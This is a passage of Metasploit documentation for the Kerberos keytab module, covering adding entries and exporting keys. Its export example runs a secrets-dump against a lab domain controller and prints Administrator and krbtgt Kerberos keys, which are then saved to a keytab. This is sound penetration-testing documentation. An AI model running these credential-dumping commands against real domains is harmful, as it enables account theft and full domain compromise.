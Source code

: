 Adding entries using a specified password:

```msf
msf6 auxiliary(admin/kerberos/keytab) > run action=ADD keytab_file=./example.keytab principal=Administrator realm=DEMO.LOCAL enctype=ALL password=p4$$w0rd

[*] modifying existing keytab
[*] Generating key with salt: DEMO.LOCALAdministrator. The SALT option can be set manually
[+] keytab entry added to ./example.keytab
```

### Export

Export Kerberos encryption keys stored in the Metasploit database to a keytab file. This functionality is useful in conjunction with secrets dump

```msf
# Secrets dump
msf6 > use auxiliary/gather/windows_secrets_dump
msf6 auxiliary(gather/windows_secrets_dump) > run smbuser=Administrator smbpass=p4$$w0rd rhosts=192.168.123.13
... ommitted ...
# Kerberos keys:
Administrator:aes256-cts-hmac-sha1-96:56c3bf6629871a4e4b8ec894f37489e823bbaecc2a0a4a5749731afa9d158e01
Administrator:aes128-cts-hmac-sha1-96:df990c21c4e8ea502efbbca3aae435ea
Administrator:des-cbc-md5:ad49d9d92f5da170
Administrator:des-cbc-crc:ad49d9d92f5da170
krbtgt:aes256-cts-hmac-sha1-96:e1c5500ffb883e713288d8037651821b9ecb0dfad89e01d1b920fe136879e33c
krbtgt:aes128-cts-hmac-sha1-96:ba87b2bc064673da39f40d37f9daa9da
krbtgt:des-cbc-md5:3ddf2f627c4cbcdc
... ommitted ...
[*] Auxiliary module execution completed

# Export to keytab
msf6 auxiliary(gather/windows_secrets_dump) > use admin/kerberos/keytab
msf6 auxiliary(admin/kerberos/keytab) > run action=EXPORT keytab_file=./example.keytab
[+] keytab saved to ./example.keytab
Keytab entries
==============

 kvno  type              principal                                   hash                                                              date
 ----  ----              ---------                                   ----                                                              ----
 1     1  (DES_CBC_CRC)  WIN11-DC3$@adf3.local                       3e5d83fe4594f261                                                  1970-01-01 01:00:00 +0100
 1     17 (AES128)       ADF3\DC3$@adf3.local                        967ccd1ffb9bff7900464b6ea383ee5b                                  1970-01-01 01:00:00 +0100
 1     3  (DES_CBC_MD5)  ADF3\DC3$@adf3.local                        62336164643537303830373630643133                                  1970-01-01 01:00:00 +0100
 1     18 (AES256)       Administrator@adf3.local                    56c3bf6629871a4e4b8ec894f37489e823bbaecc2a0a4a5749731afa9d158e01  1970-01-01 01:00:00 +0100
 1     17 (AES128)       Administrator@adf3.local                    df990c21c4e8ea502efbbca3aae435ea                                  1970-01-01 01:00:00 +0100
 1     3  (DES_CBC_MD5)  Administrator@adf3.local                    ad49d9d92f5da170                                                  1970-01-01 01:00:00 +0100
 1     1  (DES_CBC_CRC)  Administrator@adf3.local                    ad49d9d92f5da170                                                  1970-01-01 01:00:00 +0100
 1     18 (AES256)       krbtgt@adf3.local                           e1c5500ffb883e713288d8037651821b9ecb0dfad89e01d1b920fe136879e33c  1970-01-01 01:00:00 +0100
 1     17 (AES128)       krbtgt@adf3.local                           ba87b2bc064673da39f40d37f9daa9da                                  1970-01-01 01:00:00 +0100
 1     3  (DES_CBC_MD5)  krbtgt@adf3.local                           3ddf2f627c4cbcdc                                                  1970-01-01 01:00:00 +0100
```